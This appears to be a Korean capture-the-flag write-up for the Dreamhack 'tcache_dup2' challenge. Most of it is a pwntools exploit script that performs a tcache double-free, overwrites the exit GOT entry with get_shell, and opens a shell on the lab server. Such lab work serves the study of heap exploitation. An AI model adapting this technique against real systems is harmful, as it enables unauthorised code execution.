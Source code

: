 ### Vulnerability Scanning

- `checksec`
    
    <p align="center">
        <a href="/assets/images/TIL220823/Untitled (1).png">
            <img src="/assets/images/TIL220823/Untitled (1).png" width="400">
        </a>
    </p>
    
- 이전의 문제들과 거의 동일한 취약점을 가지므로 생략한다.

### Exploit

```python
from pwn import *

#p = process("./tcache_dup2")
p = remote("host1.dreamhack.games", 17936)
#gdb.attach(p)
e = ELF("./tcache_dup2")

def create(size, data):
    p.sendlineafter("> ", "1")
    p.sendlineafter("Size: ", str(size))
    p.sendafter("Data: ", data)

def modify(idx, size, data):
    p.sendlineafter("> ", "2")
    p.sendlineafter("idx: ", str(idx))
    p.sendlineafter("Size: ", str(size))
    p.sendafter("Data: ", data)

def delete(idx):
    p.sendlineafter("> ", "3")
    p.sendlineafter("idx: ", str(idx))

# DFB
create(0x30, "A")
create(0x30, "A")

delete(0)
delete(1)

modify(1, 10, "AAAAAAAAB")
delete(1)

exit_got = e.got["exit"]
get_shell = e.symbols["get_shell"]

# overwrite GOT
create(0x30, p64(exit_got))
create(0x30, "AAAA")
create(0x30, p64(get_shell))

delete(7) # exit을 실행

p.interactive()
```